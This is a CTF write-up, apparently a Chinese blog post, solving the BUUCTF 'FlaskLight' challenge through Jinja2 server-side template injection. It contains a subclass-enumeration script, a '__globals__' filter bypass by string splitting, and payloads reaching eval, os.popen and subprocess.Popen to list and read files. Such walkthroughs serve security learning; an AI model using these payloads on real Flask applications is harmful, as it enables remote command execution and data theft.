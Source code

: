 title: BUUCTF刷题记录
author: bmth
tags:
  - 刷题笔记
  - CTF
categories: []
img: 'https://img-blog.csdnimg.cn/20210304211534316.png'
date: 2020-10-28 16:29:00
---
## [CSCCTF 2019 Qual]FlaskLight
查看源码发现有用的信息
![](/bmth_blog/images/pasted-162.png)
```python
{{2*2}}
```
![](/bmth_blog/images/pasted-163.png)
发现存在ssti，那么列出所有的类
```python
{{''.__class__.__mro__[2].__subclasses__()}}
```
写一个正则匹配的python脚本来查找有用的类序号
```python
import requests
import re
import html
import time

index = 0
for i in range(1, 300):
    try:
        url = "http://1c88f746-6344-4c02-b98b-0c6331405df3.node3.buuoj.cn/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
        r = requests.get(url)
        res = re.findall("<h2>You searched for:<\/h2>\W+<h3>(.*)<\/h3>", r.text)
        time.sleep(0.1)
        # print(res)
        # print(r.text)
        res = html.unescape(res[0])
        print(str(i) + " | " + res)
        #if "subprocess.Popen" in res:
            #index = i
            #break
    except:
        continue
#print("indexo of subprocess.Popen:" + str(index))
```
发现类`<class 'warnings.catch_warnings'>`，没有内置os模块在第59位。类`<class 'site._Printer'>` 内置os模块 在第71位，可以借助这些类来执行命令
由于使用`['__globals__']`会造成500的服务器错误信息，并且直接输入`?search=globals`时页面也会500，这里应该是被过滤了，所以这里采用了字符串拼接的形式`['__glo'+'bals__']`
```python
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```
![](/bmth_blog/images/pasted-164.png)
同理使用内置os模板的`site._Printer`
```python
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```
看了另一篇wp，发现类`subprocess.Popen`也可以使用，最后去读flag
```python
{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```